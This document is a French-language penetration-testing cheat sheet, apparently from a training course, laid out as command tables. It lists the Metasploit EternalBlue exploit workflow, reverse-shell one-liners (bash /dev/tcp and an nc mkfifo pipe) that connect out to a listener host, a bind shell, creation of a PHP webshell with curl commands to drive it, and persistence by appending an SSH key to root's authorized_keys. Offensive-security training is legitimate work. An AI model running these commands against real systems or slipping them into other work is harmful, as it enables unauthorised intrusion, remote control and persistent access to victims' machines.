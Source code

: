 | **Commande**                                    | **Description**                                                |
|------------------------------------------------|--------------------------------------------------------------|
| `searchsploit openssh 7.2`                      | Rechercher des exploits publics                               |
| `msfconsole`                                    | MSF: Démarrer Metasploit Framework                            |
| `search exploit eternalblue`                    | MSF: Rechercher des exploits publics dans MSF                 |
| `use exploit/windows/smb/ms17_010_psexec`       | MSF: Utiliser un module MSF                                   |
| `show options`                                  | MSF: Afficher les options requises                            |
| `set RHOSTS 10.10.10.40`                       | MSF: Définir une valeur pour une option                       |
| `check`                                         | MSF: Tester si le serveur est vulnérable                      |
| `exploit`                                       | MSF: Exécuter l'exploit                                       |

### Utilisation des Shells

| **Commande**                                                                           | **Description**                                               |
|---------------------------------------------------------------------------------------|-------------------------------------------------------------|
| `nc -lvnp 1234`                                                                        | Démarrer un écouteur `nc` sur un port local                  |
| `bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1'`                                | Envoyer un reverse shell                                     |
| `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f\|/bin/sh -i 2>&1\|nc 10.10.10.10 1234 >/tmp/f`   | Autre commande pour reverse shell                            |
| `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f\|/bin/bash -i 2>&1\|nc -lvp 1234 >/tmp/f`        | Démarrer un bind shell                                       |
| `nc 10.10.10.1 1234`                                                                  | Se connecter à un bind shell                                 |
| `python -c 'import pty; pty.spawn("/bin/bash")'`                                      | Améliorer shell TTY (1)                                      |
| `ctrl+z` puis `stty raw -echo` puis `fg` puis `enter` deux fois                       | Améliorer shell TTY (2)                                      |
| `echo "<?php system(\$_GET['cmd']);?>" > /var/www/html/shell.php`                     | Créer un webshell php                                        |
| `curl http://SERVER_IP:PORT/shell.php?cmd=id`                                         | Exécuter une commande sur un webshell                        |

### Élévation de Privilèges

| **Commande**                                                                    | **Description**                                                |
|--------------------------------------------------------------------------------|--------------------------------------------------------------|
| `./linpeas.sh`                                                                  | Exécuter le script `linpeas`                                  |
| `sudo -l`                                                                       | Lister les privilèges `sudo` disponibles                      |
| `sudo -u user /bin/echo Hello World!`                                          | Exécuter une commande avec `sudo`                             |
| `sudo su -`                                                                     | Passer à l'utilisateur root                                   |
| `sudo su user -`                                                               | Passer à un utilisateur spécifique                            |
| `ssh-keygen -f key`                                                            | Créer une nouvelle clé SSH                                    |
| `echo "ssh-rsa AAAAB...SNIP...M= user@parrot" >> /root/.ssh/authorized_keys`  | Ajouter la clé publique à l'utilisateur                      |
| `ssh root@10.10.10.10 -i key`                                                 | Se connecter en SSH avec la clé privée                        |
